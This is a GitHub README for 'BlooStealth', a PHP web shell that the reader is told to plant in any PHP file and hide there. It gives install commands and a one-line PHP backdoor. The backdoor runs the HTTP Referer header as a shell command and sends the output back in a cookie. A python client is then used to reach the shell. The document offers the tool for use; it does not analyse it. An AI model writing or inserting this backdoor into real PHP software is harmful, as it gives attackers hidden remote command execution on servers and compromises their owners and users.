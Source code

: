 # BlooStealth
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/bloos3rpent/bloostealth && cd bloostealth
```

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```
and then

```bash
python3 ninja.py
```

Now we can access it by inputting the bloostealth URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[Bloos3rpent](https://github.com/bloos3rpent)
